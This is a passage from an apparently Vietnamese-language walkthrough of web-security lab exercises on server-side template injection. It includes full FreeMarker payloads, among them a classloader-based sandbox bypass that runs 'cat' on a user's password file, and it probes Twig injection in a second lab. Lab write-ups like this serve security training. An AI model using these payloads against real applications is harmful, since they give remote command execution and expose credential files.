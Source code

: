 >Đăng nhập vào tài khoản cho trước, bài này lại tiếp tục ta có thể chỉnh sửa nội dung bài post: ![image](https://hackmd.io/_uploads/rJSJe8YIA.png)

>Thử thay payload `${abc}` để tìm xem server đang sử dụng template gì:
>![image](https://hackmd.io/_uploads/B1xGe8KLC.png)

>Từ thông báo lỗi, biết rằng server dùng **FreeMarker** của Java!

>Sử dụng code thực thi để đọc nội dung file cần tìm: 
>`${"freemarker.template.utility.Execute"?new()("cat /home/carlos/my_password.txt")}`
>![image](https://hackmd.io/_uploads/Bk0ae8FLR.png)

>Thông báo chỉ ra `freemarker.template.utility.Execute is not allowed in the template for security reasons` => Ứng dụng chỉ cho phép edit trong môi trường sandbox, có thể là **Sandbox is based on method blocklist**.

>Ta lại có được payload để bypass sandbox: 
>![image](https://hackmd.io/_uploads/BkE2bIY80.png)
```
<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("cat /home/carlos/my_password.txt")}
```

>Send payload và đọc được nội dung cần tìm: 
>![image](https://hackmd.io/_uploads/H1xeM8KLR.png)

>Submit flag và hoàn thành bài lab: 
>![image](https://hackmd.io/_uploads/ry_bGIKUC.png)

# **7. Server-side template injection with a custom exploit**
>This lab is vulnerable to server-side template injection. To solve the lab, create a custom exploit to delete the file `/.ssh/id_rsa` from Carlos's home directory.
You can log in to your own account using the following credentials: `wiener:peter`
![image](https://hackmd.io/_uploads/BJwZELK8C.png)

>Đăng nhập vào `wiener`, ta thấy có 2 chức năng `Upload avatar` và `Preferred name`
>![image](https://hackmd.io/_uploads/S1RwNUK8A.png)

>Tương tự bài lab 2, chức năng thay đổi cách hiển thị tên trong các bài post bị dính SSTI. Thử với payload `${{<%[%'"}}%\`: 
>![image](https://hackmd.io/_uploads/SJAkH8K8A.png)

>Comment bất kì vào 1 bài post và tải lại trang, thấy rằng server thông báo lỗi: ![image](https://hackmd.io/_uploads/SkF7rLYUA.png)

>Từ lỗi, ta biết được rằng server đang sử dụng template **Twig** của PHP.
Như vậy server có thể render author name bằng `{{blog-post-author-display}}`.

>Xác định có thể thực thi code từ xa bằng payload: 
>`blog-post-author-display=user.nickname}}{{7*7`
>![image](https://hackmd.io/_uploads/ByKTrLK8R.png)

